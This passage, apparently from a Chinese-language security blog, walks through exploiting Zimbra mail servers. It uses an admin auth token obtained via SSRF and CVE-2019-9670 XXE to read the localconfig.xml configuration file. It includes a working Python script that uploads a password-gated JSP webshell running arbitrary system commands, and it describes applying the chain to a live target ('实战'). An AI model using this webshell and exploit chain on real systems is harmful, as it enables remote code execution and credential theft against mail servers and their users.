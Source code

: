 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBOI1SSibo2QR6gzdt9XBGKxclJIO1LQ0BN4pRiaiabwhajKRy0z27OUWGpEPBQBf3fqCyTd6nHWa2Sw/640?wx_fmt=png)

还有一种情况！一开始我按照公开提供的 SSRF 利用手法！在获取高权限 token 的时候，如果指定 cookie 的等级为 ZM\_AUTH\_TOKEN 的时候会验证失败 ，出现如下的效果！

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBOI1SSibo2QR6gzdt9XBGKxG3hOZX8mibiab3ETUv683RRibBiaR2wtSSRgpu7zDtd5ibp9icpCia6Je0lyg/640?wx_fmt=png)

但是如果把 cookie 的等级替换为 ZM\_ADMIN\_AUTH\_TOKEN 高权限的 TOKEN 的时候 就可以获取得到了！

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBOI1SSibo2QR6gzdt9XBGKxbbfurz2DkstxTH10Ko4iauGWLpLtTQCzfQx7ejacNmiapgxudfRnQu4A/640?wx_fmt=png)

接着利用刚刚获取到的高权限的 TOKEN 来进行文件上传，把 webshell 上传上去！

```
import requests

file= {
'filename1':(None,"whocare",None),
'clientFile':("ss.jsp",r'<%if("023".equals(request.getParameter("pwd"))){java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte\[\] b = new byte\[2048\];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>',"text/plain"), 
'requestId':(None,"12",None),
}
headers ={ 
"Cookie":"ZM\_ADMIN\_AUTH\_TOKEN=0\_65ae5d9b75c34c538cd72a658f7de7d32a9ec7f9\_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313630353233373838313432323b61646d696e3d313a313b747970653d363a7a696d6272613b7469643d31303a313832383739333130393b;",#改成自己的admin\_token
"Host":"foo:7071"
}
r=requests.post("https://192.168.8.155:7071/service/extension/clientUploader/upload",files=file,headers=headers,verify=False)    
print(r.text)
```

接着访问到这个 webshell，这个 webshell 需要有高权限的 Cookie 才可以访问得到这个 webshell!

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBOI1SSibo2QR6gzdt9XBGKxtHoExxVb2vdrLr27keQicHR99E0PdLsWXuEicJyBKAMwxXJlR3YDtSSQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBOI1SSibo2QR6gzdt9XBGKxR5E588NBAfeNJVOuQLxq9pDqoAtZe3C8Pg5tnTQ8NO5kscoDmE0gnA/640?wx_fmt=png)

实战 zimbra RCE

复现这个漏洞主要就是遇到了这个邮箱服务器！并且存在 XXE 读取文件！前面的准备都是为了这一刻！！！！！

首先获取它的数据包，利用了 CVE-2019-9670 XXE 漏洞来读取配置文件。Zimbra 配置文件位置为 / conf/localconfig.xml。接着抓取到它的数据包，这里需要带入 cookie 的数据包。接着放到重放去，修改请求方式为 POST，并且带入 URL :/Autodiscover/Autodiscover.xml 。并且修改 Content-Type: application/xml。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBOI1SSibo2QR6gzdt9XBGKx4XhWHgianE70PiaYB6PiaCickyfoCLCRSoaz14pN9poJMN5vFKj1XCHX8Q/640?wx_fmt=png)

这里已经成功的读取到了用户的信息。说明 XXE 攻击成功了！接着需要构造 payload 来读取 zimbra 的配文件 localconfig.xml。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBOI1SSibo2QR6gzdt9XBGKxaKwmGJjtfO8zL5xVduu4CDnbn0bg3cErRqNfaEXTJiasDtMHPrj6v9Q/640?wx_fmt=png)
